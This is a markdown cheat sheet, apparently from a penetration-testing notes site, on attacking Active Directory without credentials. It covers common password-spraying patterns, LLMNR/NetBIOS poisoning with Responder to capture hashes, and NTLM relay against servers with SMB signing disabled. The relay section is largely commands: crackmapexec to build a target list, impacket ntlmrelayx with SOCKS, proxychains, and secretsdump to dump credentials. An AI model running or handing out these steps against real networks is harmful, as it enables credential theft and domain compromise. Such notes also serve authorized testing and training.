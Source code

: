 ```yaml
---
title: AD Attacks
category: Active Directory
order: 99
---
```


# Without Credentials

## Password Spraying

Password spraying is an effective technique for discovering weak passwords that users are notorious for using. Patterns such as MonthYear (August2022), SeasonYear (Summer2022) and DayDate (Tuesday6) are very common.

Another pattern too common is the name of the company and the year (Corp2022)


## LLMNR / NetBIOS Poisoning

We can grab some hashed credentials if LLMNR protocol is enabled.

```
sudo responder -I eth0 -Fw
```

After some time we can get all the hashes.

```
cd /usr/share/responder
sudo python DumpHash.py
```

## NTLM Relay (SMB signing disabled)

Some tiems some server are misconfigured and have the smb signing disabled, so we can perform more attacks with responder.

### Configuration

* /etc/proxychains4.conf

```
socks4  127.0.0.1       1080
```

* /usr/share/responder/Responder.conf

```
[Responder Core]

; Servers to start
SMB = Off
HTTP = On
```

### Perform the attack

We need to get a list of the servers with the SMB sigining disabled.

```
crackmapexec smb --gen-relay-list vulnerable_servers.txt 10.10.10.0/24
```

Execute the attack with Responder and Impacket.

```
impacket-ntlmrelayx.py -tf ./vulnerable_servers.txt -socks -smb2support
sudo responder -I eth0
```

We can list the current sessions with the next command.

```
ntlmrelayx> socks
```

When a session with administrative privileges is found we can use secretsdump or other tool with proxychains to use the session captured.

```
proxychains impacket-secretdump DOMAIN/admin@IP
```
